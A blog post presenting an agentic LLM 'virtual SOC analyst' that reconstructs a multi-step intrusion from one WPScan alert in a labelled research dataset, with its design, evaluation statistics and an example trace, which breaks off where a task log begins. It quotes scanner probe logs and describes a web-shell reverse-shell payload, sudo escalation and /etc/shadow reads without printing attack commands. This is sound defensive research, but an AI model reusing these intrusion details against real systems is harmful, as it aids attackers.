

# Performing Multi-Step Attack Analysis with Agentic AI

Cheng-En (Daniel) Lee

## Motivation

A few years ago, I was studying [Blue Team Level 1 (BTL1)](https://www.centri.org/certifications/blue-team-level-1) to learn more about blue teaming. For those who don't know, it's a cybersecurity certification that teaches hands-on skills in analyzing phishing emails, investigating SIEMs, conducting digital forensics, and understanding incident response. During lab practices and the actual 24-hour incident response exam, I kept noticing how much of an analyst's work is repetitive, especially SIEM investigation. Much of it comes down to writing queries that surface the right evidence, and SIEMs hold an overwhelming volume of alert data, which makes that work labor-intensive even when you know what you're looking for. Those observations suggested a natural automation target: a platform that automates the first pass. It reads the alert, writes the queries, and pulls the relevant evidence together. With the rise of agentic AI, that target became building a virtual SOC analyst specialized in SIEM investigation.

## Overview

Starting from a single wpscan alert, the system autonomously reconstructed:

- earlier service scans and directory fuzzing
- a live reverse shell access
- privilege escalation to root
- credential access via `/etc/shadow`
- suspected command-and-control traffic

It was never told any of this was part of the same attack. It had to find the chain itself, starting from one alert. Here's how.

## Design

The system is built around an agentic architecture that gives an LLM access to SIEM and SOAR tools, looping through a ReAct-style think → act → observe cycle that imitates how a human analyst works. One diagram covers most of it:



Left on their own, though, raw free-form agents run into three problems: **they forget** (early details get buried as tool calls pile up), **they blur fact and guess** (stating conclusions they can't back up), and **they wander** (chasing every new lead without ever converging). Two ideas address this. A **task queue** keeps the investigation focused, and a **scratchpad** keeps evidence and hypotheses straight.

### Task-driven investigation

- Pending work sits in a priority-ranked queue, populated before the investigation starts.
- The agent claims one task at a time and must satisfy its success criteria before moving on.
- A significant finding (e.g. a reverse shell) spawns new tasks back onto the queue; a dead end spawns nothing.
- When the queue empties, the investigation concludes.

### Evidence-tracking

- A scratchpad-like store keeps the artifacts, facts, and hypotheses gathered so far, injected into the agent's context at the start of every task.
- Every tool call is immediately mined for IoCs and artifacts, which triggers auto-correlation, TI enrichment, and new kill-chain tasks.
- Confirmed facts and hypotheses get written back to the scratchpad when a task completes.

For instance: Task 1 discovers the IP `172.17.130.196`. By the time the agent reaches a `sudo`-to-root event several tasks later, the scratchpad already knows that IP belongs to the attacker. So the agent immediately connects the new privilege-escalation event to the earlier compromise instead of rediscovering the relationship from scratch.

### From triage to investigation

Not every alert deserves a deep dive. A lightweight **triage agent** reads the incoming alert or case first and decides whether it's worth investigating. If it is, triage hands off, seeding the task queue with the initial lines of inquiry, and the **investigation agent** takes over to work that queue to the end. This split keeps fast, high-volume triage separate from the slower, thorough investigation.

> The investigation loop has more moving parts under the hood. For the full agent graph and internals, see the [architecture docs](/documents/architecture).

## Evaluation

*This section summarizes the evaluation. For the full methodology — the dataset preparation pipeline, phase definitions, tool inventory, and reproducibility notes — see the [Benchmark Methodology](/documents/reference/benchmark-methodology) reference doc.*

### The dataset

To test whether the system recovers a genuinely *multi-step* attack (not just the entry alert), I evaluated it on the **AIT Alert Data Set (AIT-ADS)** [Landauer et al., 2024], built from full multi-phase intrusions inside a realistic enterprise testbed with attack phases labeled as ground truth. I used the **fox** scenario: the agent is given general playbooks for investigating common attack techniques, but never the actual attack chain. It has to find that on its own.

The alert stream (Wazuh alerts merged with AMiner anomaly events, chronologically interleaved so the agent can't tell a planted anomaly from an ordinary one) is loaded into a live Wazuh instance, with high-severity alerts imported into TheHive to seed the investigation. These are the same alerts and cases a real analyst would triage.

### Setup

I ran two entry points for **fox**: a wpscan alert and a privilege-escalation alert, each repeated three times (six runs total) using `gpt-5.4-mini-2026-03-17` at medium reasoning effort. Three trials is enough to see whether behavior is roughly consistent, not enough to pin down precise rates. The agent investigates through the same kind of tools a human analyst would use: querying and correlating events in Wazuh, and reading and updating the case in TheHive (the full tool list is in the appendix below).

  <details>
  <summary>wpscan alert</summary>

  ### @timestamp
  | key | val |
  | ------ | ------ |
  | @timestamp | 2022-01-18T12:17:52.000000Z |
  ### Agent
  | key | val |
  | ------ | ------ |
  | agent.id | 27 |
  | agent.ip | 10.35.35.206 |
  | agent.name | wazuh-client |
  ### Data
  | key | val |
  | ------ | ------ |
  | data.id | 404 |
  | data.protocol | HEAD |
  | data.srcip | 172.17.130.196 |
  | data.url | /wp-content/debug.log |
  ### Decoder
  | key | val |
  | ------ | ------ |
  | decoder.name | web-accesslog |
  ### Full_log
  | key | val |
  | ------ | ------ |
  | full_log | 172.17.130.196 - - [18/Jan/2022:12:17:52 +0000] "HEAD /wp-content/debug.log HTTP/1.1" 404 146 "https://intranet.price.fox.org" "WPScan v3.8.20 (https://wpscan.com/wordpress-security-scanner)" |
  ### Id
  | key | val |
  | ------ | ------ |
  | id | 1686441512.7131147 |
  ### Input
  | key | val |
  | ------ | ------ |
  | input.type | log |
  ### Location
  | key | val |
  | ------ | ------ |
  | location | /var/log/apache2/intranet-access.log |
  ### Manager
  | key | val |
  | ------ | ------ |
  | manager.name | wazuh.manager |
  ### Previous_output
  | key | val |
  | ------ | ------ |
  | previous_output | 172.17.130.196 - - [18/Jan/2022:12:17:52 +0000] "HEAD /searchreplacedb2.php HTTP/1.1" 404 146 "https://intranet.price.fox.org" "WPScan v3.8.20 (https://wpscan.com/wordpress-security-scanner)"
  172.17.130.196 - - [18/Jan/2022:12:17:52 +0000] "HEAD /fantastico_fileslist.txt HTTP/1.1" 404 146 "https://intranet.price.fox.org" "WPScan v3.8.20 (https://wpscan.com/wordpress-security-scanner)"
  172.17.130.196 - - [18/Jan/2022:12:17:50 +0000] "GET /036457d.html HTTP/1.1" 404 363 "https://intranet.price.fox.org" "WPScan v3.8.20 (https://wpscan.com/wordpress-security-scanner)"
  172.17.130.196 - - [18/Jan/2022:12:17:43 +0000] "GET /HNAP1 HTTP/1.1" 404 360 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
  172.17.130.196 - - [18/Jan/2022:12:17:43 +0000] "GET /nmaplowercheck1642508263 HTTP/1.1" 404 3263 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
  172.17.130.196 - - [18/Jan/2022:12:17:43 +0000] "GET /HNAP1 HTTP/1.1" 404 3263 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
  172.17.130.196 - - [18/Jan/2022:12:17:43 +0000] "POST /sdk HTTP/1.1" 404 3263 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
  172.17.130.196 - - [18/Jan/2022:12:17:43 +0000] "POST /sdk HTTP/1.1" 404 360 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
  172.17.130.196 - - [18/Jan/2022:12:17:43 +0000] "GET /nmaplowercheck1642508263 HTTP/1.1" 404 360 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
  cloud.dmz.price.fox.org:80 172.17.130.196 - - [18/Jan/2022:12:17:43 +0000] "GET /HNAP1 HTTP/1.1" 404 649 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
  cloud.dmz.price.fox.org:443 172.17.130.196 - - [18/Jan/2022:12:17:43 +0000] "GET /HNAP1 HTTP/1.1" 404 3555 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)" |
  ### Rule
  | key | val |
  | ------ | ------ |
  | rule.description | Multiple web server 400 error codes from same source ip. |
  | rule.firedtimes | 3 |
  | rule.frequency | 14 |
  | rule.gdpr.0 | IV_35.7.d |
  | rule.groups.0 | web |
  | rule.groups.1 | accesslog |
  | rule.groups.2 | web_scan |
  | rule.groups.3 | recon |
  | rule.id | 31151 |
  | rule.level | 10 |
  | rule.mail | False |
  | rule.mitre.id.0 | T1595.002 |
  | rule.mitre.tactic.0 | Reconnaissance |
  | rule.mitre.technique.0 | Vulnerability Scanning |
  | rule.nist_800_53.0 | SA.11 |
  | rule.nist_800_53.1 | SI.4 |
  | rule.pci_dss.0 | 6.5 |
  | rule.pci_dss.1 | 11.4 |
  | rule.tsc.0 | CC6.6 |
  | rule.tsc.1 | CC7.1 |
  | rule.tsc.2 | CC8.1 |
  | rule.tsc.3 | CC6.1 |
  | rule.tsc.4 | CC6.8 |
  | rule.tsc.5 | CC7.2 |
  | rule.tsc.6 | CC7.3 |
  ### Timestamp
  | key | val |
  | ------ | ------ |
  | timestamp | 2022-01-18T12:17:52.000+0000 |

  </details>

  <details>
  <summary>Privilege escalation alert</summary>

  ### @timestamp
  | key | val |
  | ------ | ------ |
  | @timestamp | 2022-01-18T13:14:31.000000Z |
  ### Agent
  | key | val |
  | ------ | ------ |
  | agent.id | 27 |
  | agent.ip | 10.35.35.206 |
  | agent.name | wazuh-client |
  ### Decoder
  | key | val |
  | ------ | ------ |
  | decoder.name | pam |
  ### Full_log
  | key | val |
  | ------ | ------ |
  | full_log | Jan 18 13:14:31 intranet-server su[28816]: pam_unix(su:session): session opened for user phopkins by (uid=33) |
  ### Id
  | key | val |
  | ------ | ------ |
  | id | 1700000000.110417 |
  ### Input
  | key | val |
  | ------ | ------ |
  | input.type | log |
  ### Location
  | key | val |
  | ------ | ------ |
  | location | /var/log/auth.log |
  ### Manager
  | key | val |
  | ------ | ------ |
  | manager.name | wazuh.manager |
  ### Predecoder
  | key | val |
  | ------ | ------ |
  | predecoder.hostname | intranet-server |
  | predecoder.program_name | su |
  | predecoder.timestamp | Jan 18 13:14:31 |
  ### Rule
  | key | val |
  | ------ | ------ |
  | rule.description | PAM: Login session opened. |
  | rule.firedtimes | 4 |
  | rule.gdpr.0 | IV_32.2 |
  | rule.gpg13.0 | 7.8 |
  | rule.gpg13.1 | 7.9 |
  | rule.groups.0 | pam |
  | rule.groups.1 | syslog |
  | rule.groups.2 | authentication_success |
  | rule.hipaa.0 | 164.312.b |
  | rule.id | 5501 |
  | rule.level | 3 |
  | rule.mail | False |
  | rule.nist_800_53.0 | AU.14 |
  | rule.nist_800_53.1 | AC.7 |
  | rule.pci_dss.0 | 10.2.5 |
  | rule.tsc.0 | CC6.8 |
  | rule.tsc.1 | CC7.2 |
  | rule.tsc.2 | CC7.3 |
  ### Timestamp
  | key | val |
  | ------ | ------ |
  | timestamp | 2022-01-18T13:14:31.000+0000 |

  </details>

  <details>
  <summary>Full tool list (SIEM + SOAR)</summary>

  **SIEM: Wazuh (evidence gathering & analysis)**
  - `search` / `search_keyword`: query the event store for security events over a
    time window; `search` takes a structured OpenSearch query and returns per-clause
    diagnostics (which part of the query was selective vs. a flood), while
    `search_keyword` is a simpler full-text lookup.
  - `get_event`: pull a single event in full by its document id, so a finding can be
    tied to exact, citable evidence.
  - `profile_field`: summarize the distribution of a field's values (including *rare*
    terms), surfacing low-frequency needles that a volume-ranked view would bury.
  - `get_event_volume`: a histogram of event volume over time, used to locate spikes
    and bursts and pick the right sub-window to drill into.
  - `correlate_entity`: given one confirmed entity (an IP, user, host, process, file,
    or rule), find everything that co-occurs with it in a single call. The users seen
    with it, the hosts it touched, the source/destination IPs, processes, files, and
    rule types are each ranked by how often they appear alongside the entity, with
    first/last-seen times and citable sample event ids. For example, pinning a
    suspicious source IP surfaces which accounts logged in from it, which hosts it
    reached, and what rules it tripped in one shot instead of a dozen manual
    field-by-field queries. For an IP it also checks the *same* address in the
    opposite network role (`cross_role`), answering "is this callback destination also
    a login source?". It points to the events that matter; the agent then pulls the
    full events with `search`/`get_event` to actually quote the evidence.
  - `correlate_techniques`: map observed activity onto MITRE ATT&CK techniques to
    reason about kill-chain phases and coverage.
  - `list_indices` / `get_index_schema`: discover which indices exist and what fields
    they contain, so queries use real field names.

  **SOAR: TheHive (case context & reporting)**
  - `get_case` / `list_cases` / `get_alert` / `list_case_alerts`: read the case and
    the alerts under investigation.
  - `get_similar_cases`: find related historical cases for context.
  - `update_case`: set case fields such as status, severity, and tags.
  - `post_case_comment` / `post_case_report`: post interim workflow notes and the
    final, evidence-backed investigation report back to the case.

  Alongside these, the agent uses the internal scratchpad, task queue, and TI-
  enrichment tools described earlier.

  </details>

### Metrics

For each entry point I measured:

- **Phase recall**: did it reach phases beyond the entry alert?
- **Verdict correctness**: did it reach the expected verdict (true positive, critical)?
- **Cost to verdict**: model calls and token usage per run.

### Results

The encouraging result wasn't perfect recall. It was that the agent regularly uncovered attack phases nobody pointed it toward. Here's what that looked like across the six runs, before getting into what the numbers actually support.

The table below is the **per-phase hit rate** (how many of the 3 trials reached each phase), for the 8 scorable phases:

| Phase | `recon` entry | `privilege_escalation` entry |
|---|---|---|
| service_scans | 3/3 | 0/3 |
| wpscan | 3/3 | 0/3 |
| dirb | 2/3 | 0/3 |
| webshell | 0/3 | 0/3 |
| cracking | 0/3 | 0/3 |
| reverse_shell | 2/3 | 3/3 |
| privilege_escalation | 3/3 | 3/3 |
| service_stop | 1/3 | 0/3 |
| **Mean phase recall** | **≈ 0.58 (≈ 4.7 / 8 phases per run)** | **0.25 (2 / 8 per run)** |

| Metric | `recon` entry | `privilege_escalation` entry |
|---|---|---|
| Verdict correctness | 3/3 (100%) | 3/3 (100%) |
| Model calls / run (avg) | ≈ 359 | ≈ 97 |
| Input tokens / run (avg) | ≈ 13.3 M | ≈ 2.5 M |

Six runs isn't enough to take those percentages at face value. "100%
verdict accuracy" from 3/3 trials and from 3,000/3,000 trials round to the
same number, but they're very different evidence — so instead of quoting
raw hit-rates, I estimated posterior uncertainty with a Beta-Binomial
model, applied at whatever level of granularity the data actually
supports. (The full derivation — including why some claims get pooled
together and others don't — is in the appendix below.)

Three things came out of that:

- **Verdict accuracy is almost certainly above 70% in both entry points.**
  Recon and privesc are kept separate here rather than pooled — they
  exercise different reasoning paths (forward from an early alert vs.
  backward from a late one), and nothing in 3 trials each is enough to
  justify assuming they share one true rate. Each hit 3/3, giving an
  identical posterior for both: 80% mean, 76% posterior probability of
  exceeding 70%.
- **Both entry points have a reliable core.** Recon always landed
  `service_scans`, `wpscan`, and `privilege_escalation`; privesc always
  landed `reverse_shell` and `privilege_escalation`. Each core hit in every
  one of its 3 trials — 93.75% posterior probability apiece of a true rate
  above 50%, so these aren't flukes.
- **Beyond that core, the two entry points diverge.** Recon showed genuine
  variability across three more phases — `dirb` (2/3), `reverse_shell`
  (2/3), `service_stop` (1/3) — reported individually rather than pooled
  into one rate, since there's no more reason to treat these three as
  interchangeable than there was for the core. Privesc showed no
  variability at all: the same two phases hit and the same six missed,
  every single trial, a fixed pattern rather than a noisy rate.

<details>
<summary>Appendix: the Bayesian statistics, worked out</summary>

**Why not just report percentages?** A raw percentage hides how much evidence produced it. "100% accuracy" from 3 correct trials out of 3, and from 3,000 out of 3,000 are both "100%"; but the second is far stronger evidence. Bayesian inference keeps track of that difference: instead of a single percentage, it estimates a full probability distribution over the true, unknown success rate. It's wide when the sample is small, narrow when it's large.

**The idea, in short.** Start from a *prior* belief (here, a uniform prior): every success rate from 0% to 100% is equally plausible before any data comes in. Each trial updates that belief: a success shifts it up, a failure shifts it down, and the more trials observed, the more the estimate sharpens. What's left is a *posterior* distribution over the true rate, from which we read off a posterior mean (the best-guess rate) and a 95% credible interval (a range likely to contain the true rate).

**The Beta-Binomial update.** Every quantity below is a series of pass/fail outcomes, so the math is the standard Beta-Binomial model. The uniform prior is `Beta(1, 1)`. After observing `s` successes and `f` failures, the posterior is simply

```
Beta(1 + s, 1 + f)
```

No simulation or numerical fitting. Just add the observed counts to the prior. From the posterior, the mean is `α / (α + β)`, and the 95% credible interval is the middle 95% of that distribution — closed-form when β = 1, since a `Beta(α, 1)` posterior has CDF `x^α`, giving `P(true rate > x) = 1 − x^α`; otherwise read numerically off the distribution.

**What counts as one independent trial.** This model is only valid if the pooled outcomes are independent draws from one shared true rate, so each quantity below is defined at the level where that's actually plausible:

- **Verdict accuracy** is reported separately per entry point rather than pooled. Recon and privesc exercise different reasoning paths, so pooling them would assume they share one true rate — and with only 3 trials each, there's no way to test that assumption. Both hitting 3/3 isn't evidence they're the same process; it's just too little data to show a difference even if one exists.
- **Consistency claims** are defined as one composite outcome per run — "did this run land the whole reliable cluster together" — rather than as several per-phase probabilities multiplied together. Within a run, phases are not independent of each other: whether one phase gets recovered and whether another does are linked by some shared "how well is this particular run going" factor, so multiplying separate per-phase posteriors (which requires independence) isn't valid here. Defining the cluster as a single outcome sidesteps the question entirely — there's no combining of separate probabilities, just one direct count of how often the compound event happened. The one place multiplication *is* valid is combining the two entry points' clusters with each other, since those come from entirely disjoint runs — no single trial belongs to both entry points, so independence across them is a reasonable assumption even though independence within one of them isn't.
- **Recall** is reported per phase, not pooled into one rate — even among the phases that showed real trial-to-trial variation. The same argument that applies to the reliable core applies here too: phases within a run aren't independent of each other, so treating `dirb`, `reverse_shell`, and `service_stop` as exchangeable draws from one shared rate would repeat the same mistake in a milder form. A phase reached in 0 or 3 of 3 trials has, additionally, no observed variance at all — the honest statement there is that no between-run variation was observed, not that the true rate is 0% or 100%.

**Worked examples.**

- *Verdict accuracy, each entry point:* 3 successes, 0 failures → `Beta(1+3, 1+0) = Beta(4, 1)`. Mean = 4/5 = 80%. `P(true rate > 70%) = 1 − 0.7^4 = 76.0%`. Recon and privesc give identical numbers because both hit 3/3, not because they were pooled — they're two separate posteriors that happen to agree.
- *Recon's reliable core* (`service_scans` ∧ `wpscan` ∧ `privilege_escalation`, all in the same run): landed together in all 3 trials → `Beta(1+3, 1+0) = Beta(4, 1)`. Mean = 4/5 = 80%. `P(true rate > 50%) = 1 − 0.5^4 = 93.75%`. 95% credible interval: 40%–99%.
- *Privesc's reliable core* (`reverse_shell` ∧ `privilege_escalation`): landed together in all 3 trials → `Beta(4, 1)`, identical to the above: mean 80%, `P(true rate > 50%) = 93.75%`, interval 40%–99%.
- *Both cores together:* these two composite events come from disjoint runs, so multiplying them is valid: `0.9375 × 0.9375 ≈ 87.9%` — the posterior probability that both entry points' reliable cores are genuine (each individually above a 50% true rate), not a coincidence of small samples.
- *Recon's variable phases* (`dirb`, `reverse_shell`, `service_stop`): each gets its own count rather than a pooled rate, for the same reason the reliable core is a composite instead of a product — these three aren't independent of each other within a run, and there's no basis for assuming they behave the same way. The raw per-trial counts are in the results table above (2/3, 2/3, 1/3); no further modeling is applied to them.
- *Privesc's remaining six phases* (everything except its reliable core): 0 hits out of 9 attempts, every trial — no between-run variation was observed. That's reported as exactly that observation, not as a claim that the true rate is 0%: three trials can't rule out the phase occasionally succeeding, they just didn't see it happen.

| Quantity | Data | Posterior | Mean | 95% credible interval |
|---|---|---|---|---|
| Verdict accuracy (recon) | 3 / 3 | Beta(4, 1) | 80.0% | 40%–99% |
| Verdict accuracy (privesc) | 3 / 3 | Beta(4, 1) | 80.0% | 40%–99% |
| Recon reliable core (composite) | 3 / 3 | Beta(4, 1) | 80.0% | 40%–99% |
| Privesc reliable core (composite) | 3 / 3 | Beta(4, 1) | 80.0% | 40%–99% |

Recon's variable phases (`dirb`, `reverse_shell`, `service_stop`) aren't in this table — they're reported as raw per-trial counts in the main results table, not as a modeled rate, for the reasons above.

The smallest remaining assumption, even here, is that the 3 trials per entry point are themselves independent, identically-distributed replicates within that one entry point — reasonable, since each is a fresh execution with independent model sampling, but there are only 3 of them, so every interval above should be read as wide-open rather than precise. That independence claim is also narrower than it might sound: it says the six runs are consistent stochastic executions of this one system, under this one model, this one prompt set, this one dataset — not that they're a representative sample of investigations in general.

One caveat travels with both verdict-accuracy figures specifically: every case here was a genuine attack, so they measure whether the agent dismisses real attacks (it didn't), not whether it can tell an attack from noise.

</details>

A few takeaways from the runs. First what went well, then where it fell short:

**What went well**

- **It uncovers attack phases beyond the entrypoint.** Both reliable cores above sit past the entry alert itself, so those hits are unlikely to be flukes rather than genuine reach. What's more interesting is what happens once a run gets past its core — recon keeps exploring and sometimes succeeds further; privesc simply stops. That gap is explored below and in Limitations.
- **It reached the right verdict in every run.** It classified each entry-point alert as a true positive. This is correct, since every entry point is part of a larger attack chain. That is a genuine strength but an easy test: the set held no benign cases, so it shows the agent doesn't wave off a real attack, not that it can rule one out (see Limitations).
- **It investigates past the alert it's handed.** Rather than describing only the
  event that triggered it, the agent consistently treated each finding as a lead and
  kept pulling the thread. It expanded its investigation outward from a single faint
  starting signal instead of stopping at the surface. This "keep going" behavior is
  the core thing that separates it from a one-shot summarizer.
- **It assembles a connected picture, not a pile of findings.** Across runs it tended
  to weave what it found into one coherent story rather than reporting isolated,
  unrelated observations (see Example trace). This is the behavior you want when the goal is understanding an
  incident, not just re-listing alerts.

**What can be improved**

- **It reasons forwards better than backwards.** The recon-vs-privesc gap above is starker than a recall percentage alone suggests: recon is exploring past its core and sometimes succeeding; privesc is executing one fixed, narrow pattern regardless of run, never venturing beyond `reverse_shell` and `privilege_escalation`. The most likely explanation is proximity: from the wpscan alert, the adjacent attack phases (service scans, dirb, reverse shell) leave large volumes of web events that are easy to query. From the privilege-escalation alert, the earlier phases are temporally and causally distant, so the agent tends to focus on host-side movements instead of tracing back through the kill chain. To mitigate this, further tuning of the playbooks is necessary.
- **Thoroughness is uneven and costly.** The recon entry averaged ~359 model calls and ~13.3 M input tokens per run, several times more than the privilege-escalation entry (~97 calls, ~2.5 M tokens). The extra work stems from the recon entry's web-heavy context: the agent must sift through large volumes of benign IDS and scan noise before it can confirm that any individual event is meaningful, which drives repeated query refinement cycles.

> Two phases in the fox dataset (a raw network SYN sweep and a no-tunneling
> DNS window) carry no distinguishing event in the logs, so they're excluded from the
> recall denominator rather than counted as guaranteed misses.

### Limitations

These results are a first look, not a benchmark. A few things bound how far they should be read:

- **Small sample.** Three trials per entry point (six runs total) is enough to check whether behavior is roughly consistent, not to establish rates. Recon's variable phases (`dirb`, `reverse_shell`, `service_stop`) each have only 2–3 observations — not enough to say anything beyond the raw counts already reported, which is why they aren't pooled into a combined rate. Privesc's phases showed no variation at all across 3 trials, which cuts the other way: it's consistent with either a genuinely fixed pattern or simply not enough trials to see it break, and 3 runs can't distinguish those two possibilities.
- **One scenario, no replication.** Everything here is the fox scenario. Whether the same design holds on the other AIT-ADS attacks (with different phase structures, log mixes, and entry points) is untested, so nothing here should be taken to generalize beyond fox until that replication exists.
- **Verdict accuracy has nothing to fail on.** Both entry points are real parts of a real intrusion, so a "true positive, critical" call is correct every time but never at risk of being wrong. With no benign cases in the set, the 100% figure reflects whether the agent dismisses genuine attacks (it doesn't), not whether it can separate an attack from noise. The false-positive side is simply untested here.
- **One model, one configuration.** Every run used a single model at a single reasoning effort. A different model or budget could shift both recall and cost.

Taken together, these make the evaluation a promising pilot rather than a validated result. The next step that would change that most is straightforward: more trials, across more of the AIT-ADS scenarios, ideally with some benign cases mixed in to test the false-positive side.

### Example trace

This is the full run behind the summary at the top of this post. It's a walkthrough of exactly how one wpscan alert unfolded into the whole chain:

**Entrypoint alert:** Multiple web server 400 error codes from same source ip. (wpscan)

**Triage**

  <details>
  <summary>Triage report:</summary>

### Triage Summary
This alert is a confirmed web reconnaissance event, not a case record. The alert `~368586920` was successfully grounded as a standalone Wazuh alert and shows repeated HTTP probes from source IP `172.17.130.196` against `wazuh-client` / agent `27` at `2022-01-18T12:17:52Z`, including WordPress scanner and Nmap Scripting Engine user agents. Confidence is high that the detection is a true positive for vulnerability scanning / recon activity.

### Key Evidence
- **Case / Alert**: `~368586920`. This is `Multiple web server 400 error codes from same source ip.` at `2022-01-18T12:17:52Z`, host `wazuh-client`, agent `10.35.35.206`.
- **Resolved as**: standalone SOAR alert. Case lookup for `~368586920` returned 404, while alert lookup succeeded and exposed the raw alert record.
- **Observed activity**: The alert payload shows `data.srcip=172.17.130.196`, `data.url=/wp-content/debug.log`, `data.protocol=HEAD`, and web-accesslog rule `31151` in the `web / accesslog / web_scan / recon` families.
- **Observed activity**: The raw `full_log` includes `HEAD /wp-content/debug.log HTTP/1.1" 404` with `User-Agent: WPScan v3.8.20 (https://wpscan.com/wordpress-security-scanner)`.
- **Observed activity**: The `previous_output` contains multiple additional probes from the same source IP, including requests for `/searchreplacedb2.php`, `/fantastico_fileslist.txt`, `/036457d.html`, `/HNAP1`, `POST /sdk`, and `GET /nmaplowercheck1642508263`, with `User-Agent: Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)`.
- **Context**: The rule metadata maps to MITRE ATT&CK `T1595.002 Vulnerability Scanning`, which matches the observed probe pattern and supports scanner-driven reconnaissance.
- **Context**: Alert artifacts also identify related indicator domains/URLs such as `wpscan.com`, `nmap.org`, and `intranet.price.fox.org`, consistent with the scanner user agents and referrer strings in the HTTP logs.
- **Gaps**: No follow-on success event, payload execution, or post-scan exploitation was confirmed from the retrieved evidence. The alert itself is sufficient to classify the scan activity, but blast radius and any subsequent compromise remain unscoped.

### Investigation Plan
1. **Confirm post-scan transition from `172.17.130.196`**
   - Pivots: `data.srcip=172.17.130.196`, `agent.name=wazuh-client`, `rule.groups=web`, `rule.groups=accesslog`
   - Time window: `2022-01-17T12:17:52Z` to `2022-01-19T12:17:52Z`
   - Done when: a raw event shows either a successful HTTP response, login, spawned process, or other non-404 follow-on from the same source, or the relevant telemetry is confirmed absent in that window.
   - Expected evidence source: SIEM
   - Priority: 60

2. **Trace the source IP `172.17.130.196` for broader activity**
   - Pivots: `data.srcip=172.17.130.196`, `rule.groups=authentication`, `rule.groups=web`, `rule.groups=sysmon`
   - Time window: `2022-01-17T12:17:52Z` to `2022-01-19T12:17:52Z`
   - Done when: the same IP is either tied to other security events or its absence across authentication and process telemetry is capably established.
   - Expected evidence source: SIEM
   - Priority: 60

3. **Check whether the scanner indicators match known benign or prior-feedback patterns**
   - Pivots: `rule.id=31151`, `data.srcip=172.17.130.196`, `agent.name=wazuh-client`
   - Time window: `2022-01-17T12:17:52Z` to `2022-01-19T12:17:52Z`
   - Done when: prior feedback or memory either identifies this as a known scanner pattern or no matching corrective history is found.
   - Expected evidence source: memory / feedback
   - Priority: 50

4. **Profile nearby web activity on `wazuh-client` for the same time slice**
   - Pivots: `agent.name=wazuh-client`, `rule.groups=web`, `rule.groups=accesslog`
   - Time window: `2022-01-17T12:17:52Z` to `2022-01-19T12:17:52Z`
   - Done when: adjacent web events are either enumerated enough to show only scan noise or reveal a distinct follow-on web action.
   - Expected evidence source: SIEM
   - Priority: 60

5. **Inspect related host history for credential or lateral-movement indicators**
   - Pivots: `agent.name=wazuh-client`, `rule.groups=authentication`, `rule.groups=sysmon`, `rule.groups=syscheck`
   - Time window: `2022-01-17T12:17:52Z` to `2022-01-19T12:17:52Z`
   - Done when: no evidence of lateral movement, persistence, or credential access is found in the bounded period, or a concrete follow-on is identified.
   - Expected evidence source: SIEM
   - Priority: 50

  </details>


**What the agent found:**

The agent began with five seeded tasks targeting the source IP, nearby web traffic, scanner validation, and host authentication. Working through them, it hit an early breakthrough on the first task: a `200 OK` response to a PHP file at `/wp-content/uploads/2022/01/yqagisjaqe-1642509481.8663.php` whose decoded query parameter contained a live bash reverse-shell command targeting `192.168.130.77:51898`. That single event turned a scan alert into a confirmed compromise and drove the rest of the investigation.

The PHP payload was added to the scratchpad, which immediately triggered a kill-chain forward trace: the agent spawned tasks to trace execution, privilege escalation, C2, exfiltration, and impact in sequence. Working through those, it uncovered that the attacker had already established SSH access the previous day (as `hwarren`), and that `phopkins` had subsequently escalated to root via `sudo`. This involved reading `/root/` and `/etc/shadow` from the same upload directory that held the web shell. On the C2 front, the agent located two short TLS bursts the following morning but could not confirm beaconing from the raw Suricata decode-only alerts. Exfiltration and impact searches returned zero.

<details>
<summary>Detailed task log (click to expand)</summary>

